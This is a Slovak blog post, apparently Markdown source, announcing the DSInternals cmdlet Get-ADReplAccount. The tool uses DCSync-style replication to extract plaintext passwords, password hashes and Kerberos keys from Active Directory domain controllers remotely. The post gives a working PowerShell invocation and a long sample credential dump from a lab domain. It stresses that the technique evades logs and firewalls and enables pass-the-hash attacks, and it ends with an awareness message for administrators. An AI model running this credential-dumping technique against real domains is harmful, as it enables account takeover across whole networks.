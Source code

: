 ```yaml
---
ref: retrieving-active-directory-passwords-remotely
title: 'Vykrádanie hesiel z&nbsp;Active Directory na&nbsp;diaľku'
date: 2015-08-03T20:35:52+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-z-active-directory-na-dialku/
tags:
    - 'Active Directory'
    - PowerShell
    - Prednášky
    - Security
---
```


Predstavujem Vám príkaz **Get-ADReplAccount**, najnovší prírastok do môjho [PowerShell modulu DSInternals](https://www.dsinternals.com/sk/na-stiahnutie/), ktorý umožňuje z doménových kontrolérov na diaľku získať plaintextové heslá, hashe hesiel a Kerberos kľúče všetkých používateľov. Toho dosahuje tým, že simuluje chovanie príkazu **dcromo** a cez protokol [MS-DRSR](https://msdn.microsoft.com/en-us/library/cc228086.aspx) si vytvorí repliku všetkých dát v Active Directory databáze. Podľa mojich informácií sa jedná o jediný verejne dostupný nástroj svojho druhu na svete. Ďalej má tieto vlastnosti:

- Ku svojej činnosti nevyžaduje ani práva doménového správcu. Bohate si&nbsp;vystačí s&nbsp;oprávnením **Replicating Directory Changes All**, ktoré má napríklad DirSync, Cisco WAAS či&nbsp;zle nakonfigurovaný SharePoint.
- Otvára dvere dokorán ďalším útokom, ako sú pass-the-hash, pass-the-ticket či&nbsp;PAC spoofing, pomocou ktorých je&nbsp;útočník schopný dostať pod&nbsp;kontrolu celý Active Directory forest. Takéto útoky zvláda napríklad nástroj [mimikatz](https://blog.gentilkiwi.com/mimikatz).
- Nedá sa&nbsp;zablokovať pomocou firewallu, pretože by&nbsp;to&nbsp;základnú funkčnosť Active Directory.
- V logoch na&nbsp;doménovom radiči zanecháva len&nbsp;minimálnu stopu, ktorú prehliadne väčšina bezpečnostných auditov.
- Nezneužíva žiadnu bezpečnostnú zraniteľnosť, ktorá by&nbsp;sa&nbsp;dala jednoducho opraviť v&nbsp;rámci aktualizácie systému.
- Jeho použitie nevyžaduje žiadne špeciálne vedomosti či&nbsp;prípravu. Útočníkovi stačí základná znalosť Active Directory.

Príklad použitia:

```powershell
Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP
```

Ukážkový výstup:

```
DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222
```

Potenciál tohoto&nbsp;útoku (inak nazývaného DCSync) je&nbsp;teda veľký a&nbsp;mal by&nbsp;si&nbsp;toho byť minimálne vedomý každý manažér bezpečnosti a&nbsp;správca Active Directory.
